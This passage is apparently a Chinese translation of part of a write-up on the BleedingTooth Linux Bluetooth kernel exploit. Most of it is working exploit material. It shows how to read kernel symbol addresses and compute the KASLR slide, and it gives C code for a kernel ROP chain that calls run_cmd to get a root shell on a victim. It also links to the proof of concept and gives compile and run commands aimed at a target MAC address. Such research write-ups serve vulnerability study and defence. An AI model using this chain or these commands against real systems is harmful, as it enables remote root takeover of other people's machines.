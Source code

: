 为了确定两种方法的偏移量，我们可以简单地检查受害者机器上留存的符号：

```shell
$ sudo cat /proc/kallsyms | grep "run_cmd\|do_task_dead"
ffffffffab2ce470 t run_cmd
ffffffffab2dc260 T do_task_dead
```

这里，KASLR slide 的值是 0x2a200000 ，可以通过对 `_text` 符号 进行 grep 并减去 0xffffffff81000000 来计算得到：

```shell
$ sudo cat /proc/kallsyms | grep "T _text"
ffffffffab200000 T _text

ab2ce470
2a200000
```

前两个地址的减去 slide 得到:

```c
#define RUN_CMD 0xffffffff810ce470
#define DO_TASK_DEAD 0xffffffff810dc260
```

最后，我们可以用 ROPgadge 找到 `pop rax ; ret`，`pop rdi ; ret` 和 `jmp rax` 等 gadgets，然后我们可以根据下面的例子来构造内核 ROP 链：

```c
static void build_krop_chain(uint64_t *rop, uint64_t cmd_addr) {
  *rop++ = kaslr_offset + POP_RAX_RET;
  *rop++ = kaslr_offset + RUN_CMD;
  *rop++ = kaslr_offset + POP_RDI_RET;
  *rop++ = cmd_addr;
  *rop++ = kaslr_offset + JMP_RAX;
  *rop++ = kaslr_offset + POP_RAX_RET;
  *rop++ = kaslr_offset + DO_TASK_DEAD;
  *rop++ = kaslr_offset + JMP_RAX;
}
```

这个 ROP 链应该放在伪结构 `bpf_prog` 对象中的偏移量 0x40 处，而 `cmd_addr` 应该指向放置在内核内存中的 bash 命令。一切准备就绪，最终我们可以从受害者那里获取到一个 root shell 。

# POC

获取 POC： https://github.com/google/security-research/tree/master/pocs/linux/bleedingtooth.

编译使用:

```shell
$ gcc -o exploit exploit.c -lbluetooth
```

然后执行为:

```shell
$ sudo ./exploit target_mac source_ip source_port
```
